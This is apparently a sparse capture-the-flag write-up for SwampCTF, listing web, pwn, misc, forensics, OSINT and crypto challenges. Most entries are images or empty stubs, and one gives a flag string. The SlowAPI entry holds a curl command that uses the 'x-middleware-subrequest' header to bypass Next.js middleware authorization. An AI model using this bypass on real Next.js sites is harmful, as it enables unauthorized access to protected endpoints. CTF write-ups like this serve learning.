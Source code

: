 * * *
### CTF: **SwampCTF**
* * *

![image](https://github.com/user-attachments/assets/e85ba37f-462c-4762-9886-468bf675e5ea)


--------------------------------

### Challenges

- Web:
  - Serialies
  - SlowAPI 

- Pwn:
  - Beginner Pwn 1
  - Beginner Pwn 2

- Misc:
  - Lost In Translation 
    
- Forensics:
  - Preferential Treatment

- Osint:
  - Party Time! 
  - Party Time! Level 2 

- Crypto:
  - Rock my Password 
  - Intercepted communications
  
--------------------------------
   
### Web:

### Challenge: Serialies
![image](https://github.com/user-attachments/assets/64b27c27-c8b1-4d4a-8e72-2859105706a7)

After I Download the file ```serialies.zip```
In the PersonController.java file, we find the /api/person endpoint. Navigating there gives us the flag.

![image](https://github.com/user-attachments/assets/9bf8ffdd-7fa3-44e9-80a8-df9f40389e33)
swampCTF{f1l3_r34d_4nd_d3s3r14l1z3_pwn4g3_x7q9z2r5v8}

--------------------------------


### Challenge: SlowAPI 
![image](https://github.com/user-attachments/assets/7639e47e-e6fb-4373-9cc0-c5fc4bfc6e2d)

- IT The RECENT NEXT.JS VULNERABILITY!!!!
```curl -H "x-middleware-subrequest: middleware" http://chals.swampctf.com:43611/api/protected/flag```
      
--------------------------------


### PWN:

### Challenge: Beginner Pwn 1
![image](https://github.com/user-attachments/assets/708c2055-022e-4c34-a702-e39f67354b5a)

- Solve script

 
### Challenge: Beginner Pwn 2
![image](https://github.com/user-attachments/assets/cc125998-d69a-423d-b5e8-3bdd7eebf32e)

- Solve Script


--------------------------------

### MISC

### Challenge: Lost In Translation

![image](https://github.com/user-attachments/assets/32e32d6b-eee6-4494-8e1c-b35f7c53510a)

After i unzip the file, there is challenge.js and i Copy and paste the challenge.js to this whitespace <a href="https://www.dcode.fr/whitespace-language"</a>




  
--------------------------------

### FORENSICS:

### Challenge: Preferential Treatment:



--------------------------------


### OSINT      

### Challenge: Party Time! 

![image](https://github.com/user-attachments/assets/91a1e5d3-9522-4c9e-a693-447c53295b2b)


### Challenge: Party Time! Level 2


--------------------------------

### CRYPTO:

### Challenge: Rock my Password 

![image](https://github.com/user-attachments/assets/7407df79-4ad6-4107-bebe-d4286b70a1c9)

### Challenge: Intercepted communications




--------------------------------

Thanks for reading!!!!!

* * *

